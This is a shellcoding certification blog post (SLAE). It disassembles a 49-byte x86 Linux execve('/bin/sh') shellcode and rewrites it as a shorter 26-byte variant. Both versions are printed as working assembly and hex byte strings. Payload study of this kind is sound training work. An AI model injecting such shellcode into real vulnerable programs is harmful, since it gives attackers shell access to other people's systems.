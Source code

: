 # Execve(/bin/sh)

[http://shell-storm.org/shellcode/files/shellcode-863.php](http://shell-storm.org/shellcode/files/shellcode-863.php)


# Disassembly

Here I have commented on the high level functionality of the shellcode.


```assembly
global _start

section .text
global _start

section .text
_start:
    jmp short here

me:
    ; pop esi
    ; mov edi,esi
    pop edi

    xor eax,eax
    push eax    ; push 0x0    
    mov edx,esp
    
    push eax    ; push 0x0
    add esp,3   ; jump over edx
    ; lea esi,[esi +4]
    lea esi,[edi +4]    ; load string to stack "n/sh"
    xor eax,[esi]
    push eax    
    xor eax,eax
    xor eax,[edi]   ; load string to stack "//bi"
    push eax
    mov ebx,esp 

    xor eax,eax     ; again push "//bin/sh" to stack, load into ecx for argument
    push eax
    lea edi,[ebx]
    push edi
    mov ecx,esp

    mov al,0xb      ; execve()
    int 0x80

here:
    call me
    path db "//bin/sh"

```

Shellcode (length: 49 bytes)

```c
"\xeb\x23\x5f\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x77\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd8\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73"
```


# Changes

First, I remove the jmp, call, pop technique instructions that gets a pointer to the string "//bin/sh" as I will be pushing it to the stack later. 

I then push the string to the stack with the following instructions instead of moving the data as the original shellcode did using `lea`.

The commented code is what was removed from the original and replaced with my instructions.

```assembly
; push eax            ; load "//bin/sh" to stack
; add esp,3
; lea esi,[esi +4]
; xor eax,[esi]
; push eax
; xor eax,eax
; xor eax,[edi]
; push eax
; mov ebx,esp 
push eax
push 0x68732f6e         ; "hs/n"
push 0x69622f2f         ; "ib//"
mov ebx, esp
```

Next, I also change the way the second argument is loaded onto the stack by leveraging the ebx pointer to the string "//bin/sh". To do this, I just push a null `eax` which doesn't have to be `xor`'d since it was not touched in my previous instructions. Then push the pointer to "//bin/sh" that is currently in `ebx` and move this pointer to `ecx`.
```assembly
; xor eax,eax
; push eax
; lea edi,[ebx]
; push edi
; mov ecx,esp
push eax
push ebx
mov ecx, esp
```



# Completed Shellcode

```assembly
global _start

section .text
_start:
    ; jmp short here

me:
    ; pop esi
    ; mov edi,esi
    
    xor eax,eax     ; push ptr to 0x0 to stack for edx argument 
    push eax
    mov edx,esp    

    ; push eax            ; load "//bin/sh" to stack
    ; add esp,3
    ; lea esi,[esi +4]
    ; xor eax,[esi]
    ; push eax
    ; xor eax,eax
    ; xor eax,[edi]
    ; push eax
    ; mov ebx,esp 
    push eax
    push 0x68732f6e         ; "hs/n"
    push 0x69622f2f         ; "ib//"
    mov ebx, esp


    ; xor eax,eax
    ; push eax
    ; lea edi,[ebx]
    ; push edi
    ; mov ecx,esp
    push eax
    push ebx
    mov ecx, esp


    mov al,0xb      ; execve()
    int 0x80

; here:
;     call me
;     path db "//bin/sh"
```

New Shellcode (Length: 26)

```c
"\x31\xc0\x50\x89\xe2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly

